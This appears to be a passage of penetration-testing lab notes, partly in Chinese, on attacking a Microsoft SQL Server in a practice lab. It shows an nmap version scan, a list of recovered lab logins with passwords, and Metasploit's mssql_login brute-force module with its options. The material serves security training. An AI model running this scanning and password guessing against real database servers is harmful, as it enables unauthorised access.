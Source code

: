 ```
root@attackdefense:~# nmap -p 1433 --script ms-sql-info --script-args mssql.instance-port=1433 10.0.18.92
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-27 18:07 IST
Nmap scan report for 10.0.18.92
Host is up (0.0032s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s

Host script results:
| ms-sql-info: 
|   10.0.18.92:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds

```

Objective:

Discover valid users and their passwords

```
sa:
dbadmin:anamaria
auditor:nikita
```

[MSSQL Login Utility](https://www.rapid7.com/db/modules/auxiliary/scanner/mssql/mssql_login/)

MSSQL 登录实用程序

这个模块简单地查询特定用户/密码的 MSSQL 实例（默认是 sa 和空白）。

```
root@attackdefense:~# msfconsole -q
msf6 > use auxiliary/scanner/mssql/mssql_login
msf6 auxiliary(scanner/mssql/mssql_login) > show options

Module options (auxiliary/scanner/mssql/mssql_login):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   BLANK_PASSWORDS      true             no        Try blank passwords for all users
   BRUTEFORCE_SPEED     5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS         false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS          false            no        Add all passwords in the current database to the list
   DB_ALL_USERS         false            no        Add all users in the current database to the list
   PASSWORD                              no        A specific password to authenticate with
   PASS_FILE                             no        File containing passwords, one per line
   RHOSTS                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                1433             yes       The target port (TCP)
   STOP_ON_SUCCESS      false            yes       Stop guessing when a credential works for a host
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   THREADS              1                yes       The number of concurrent threads (max one per host)
   USERNAME             sa               no        A specific username to authenticate as
```